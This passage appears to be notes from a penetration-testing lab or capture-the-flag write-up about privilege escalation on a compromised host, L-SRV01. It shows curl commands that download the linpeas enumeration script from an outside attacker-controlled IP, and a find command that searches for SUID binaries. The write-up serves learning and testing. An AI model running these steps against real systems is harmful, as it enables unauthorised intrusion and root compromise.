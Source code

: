 
We have shell on L-SRV01 and escaped the container, we need to perform
local privilege escalation to gain root on the box.

Will download the linpeas script using the curl command.
```
curl -O http://10.50.104.169:8080/linpeas.sh
```


or save a file with specific name
```
curl -o enum.sh  http://10.50.104.169:8080/linpeas.sh
```

As we lost the connect will wait for 15 minutes and see what thing we have to see in the linpeas output.

Already know about the SUID concept as well as we also have the command in order to check specifically for that.
```
find / -perm -u=s -type f 2>/dev/null
```


